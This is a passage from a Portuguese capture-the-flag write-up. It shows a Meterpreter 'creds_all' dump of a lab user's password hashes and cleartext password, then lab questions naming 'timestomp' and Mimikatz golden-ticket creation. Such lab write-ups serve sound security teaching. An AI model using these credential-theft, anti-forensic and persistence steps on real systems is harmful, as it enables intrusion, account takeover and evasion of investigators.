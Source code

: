 Success.
```

E usei ele para pegar as credenciais do usuário DARK

```
creds_all
```

```
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

## Quarta etapa

Utilizei o botão help para me ajudar em algumas perguntas desse capture the flag

  
To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? Don't ever do this on a pentest unless you're explicitly allowed to do so! This is not beneficial to the defending team as they try to breakdown the events of the pentest after the fact. (```timestomp```)

  
Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this?

Golden ticket attacks are a function within Mimikatz which abuses a component to Kerberos (the authentication system in Windows domains), the ticket-granting ticket. In short, golden ticket attacks allow us to maintain persistence and authenticate as any user on the domain. (```golden_ticket_create```)